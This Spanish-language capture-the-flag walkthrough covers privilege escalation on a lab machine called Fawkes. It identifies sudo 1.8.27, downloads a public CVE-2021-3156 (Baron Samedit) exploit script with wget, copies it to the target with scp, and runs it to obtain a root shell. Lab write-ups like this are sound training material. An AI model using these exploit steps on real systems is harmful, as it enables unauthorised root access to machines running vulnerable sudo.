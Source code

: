 Veamos la versión del binario y busquemos un Exploit:
```bash
neville@Fawkes:~$ /usr/local/bin/sudo --version
Sudo version 1.8.27
Sudoers policy plugin version 1.8.27
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.27
```
Podemos encontrar un Exploit con **searchsploit** para esta versión, pero este no funcionará.

Si buscamos por internet, podemos encontrar estas dos versiones:
* <a href="https://github.com/worawit/CVE-2021-3156" target="_blank">Repositorio de worawit: CVE-2021-3156</a>
* <a href="https://github.com/0xdevil/CVE-2021-3156" target="_blank">Repositorio de 0xdevil: CVE-2021-3156</a>

Cualquiera de los dos funciona, únicamente, tenemos que indicarle la ruta del binario sudo para que funcione.

En mi caso, usaré el primero.

Podemos descargar el script de **Python** que menciona el **GitHub** y probarlo o solamente copiar el código y guardarlo en la máquina víctima.

Por pura práctica, lo haré de la primer forma.

Descargamos el script:
```bash
wget https://raw.githubusercontent.com/worawit/CVE-2021-3156/refs/heads/main/exploit_nss.py
--2024-11-19 13:46:35--  https://raw.githubusercontent.com/worawit/CVE-2021-3156/refs/heads/main/exploit_nss.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8179 (8.0K) [text/plain]
Saving to: ‘exploit_nss.py’

exploit_nss.py               100%[=======================================>]   7.99K  --.-KB/s    in 0.001s  

2024-11-19 13:46:35 (6.42 MB/s) - ‘exploit_nss.py’ saved [8179/8179]
```

Y lo pasamos a la máquina víctima con **scp**:
```bash
scp exploit_nss.py neville@192.168.1.007:/home/neville
neville@192.168.1.007's password: 
exploit_nss.py
```

Nos logueamos y modificamos el script para que tenga la ruta correcta del binario sudo que vamos a explotar:
```python
SUDO_PATH = b"/usr/local/bin/sudo"
```

Y lo ejecutamos:
```bash
neville@Fawkes:~$ chmod +x exploit_nss.py
neville@Fawkes:~$ python3 exploit_nss.py 
# whoami
root
```
